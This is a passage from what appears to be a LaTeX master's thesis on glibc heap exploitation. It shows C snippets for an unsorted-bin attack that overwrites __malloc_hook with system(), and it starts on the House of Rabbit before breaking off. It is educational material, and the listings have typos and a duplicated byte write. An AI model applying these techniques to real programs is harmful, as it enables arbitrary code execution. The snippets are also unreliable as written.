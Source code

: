 \documentclass{masterthesis}
\newcommand*\fb{fast bins}
\newcommand*\ub{unsorted bins}
\newcommand*\sbs{small bins}
\newcommand*\Fb{Fast bins\xspace}
\newcommand*\mallocc{\lstinline{malloc}\xspace}
\newcommand*\freec{\lstinline{free}\xspace}
\begin{document}
As we talk before, the \ub{} attack allow the attacker to write a value in a controlled location. At this stage , we use \ub{} attack in order to change the value inside \lstinline{malloc_hock} with the \lstinline{main_arena + 0x68}. 
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* unsorted_bin_ptr = malloc(0x80);
malloc(0x30);
free(unsorted_bin_ptr);
__malloc_hook_adjust = __malloc_hook - 0x10;
byte1 = (__malloc_hook_adjust) & 0xff; 
byte2 = (__malloc_hook_adjust & 0xff00) >> 8; 
unsorted_bin_ptr[8] = byte1;
unsorted_bin_ptr[9] = byte2;
malloc(0x80);
\end{lstlisting}
In the last steps, we write a one gadget inside the \lstinline{malloc_hock} and trigger attack with one allocation.
\begin{lstlisting}[language=c,frame=tlrb]
long long system_addr = (long long)dlsym(RTLD_NEXT, "system");
malloc_hook_chunk[19] = system_addr & 0xff;
malloc_hook_chunk[20] = (system_addr >> 8) & 0xff;
malloc_hook_chunk[20] = (system_addr >> 8) & 0xff;
malloc_hook_chunk[22] = (system_addr >> 24) & 0xff;
malloc((long long)shell);
\end{lstlisting}
\subsection{The House of Rabbit}
\label{subsect:houserabbit}
This attack used a \Fb{} and \emph{uaf} attack to forge a fake heap chunk for feature uses. As we mentioned before, every fast bin keeps a single size chunk with a single linked list. What happens if we change a chunk inside the \fb{}? In allocation, \fb{} detects the abnormal size so aborts the allocation. If we force the heap manager to call \mallocc{} inorder to consolidate, this chunk merge and split into \sbs{}. As a result, we have two valid but forged chunks in a \sbs{} which overlap which other. Consider the following code:

\begin{lstlisting}[language=c,frame=tlrb]
unsigned long *a = malloc(0x40);
unsigned long *b = malloc(0x40);
unsigned long *c = malloc(0x10);
\end{lstlisting}

First, we allocate two chunks with the third chunk to prevent merging chunks with the top chunk after calling \freec{}.

\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(b);
a[-1]=0xa1;
\end{lstlisting}
\end{document}
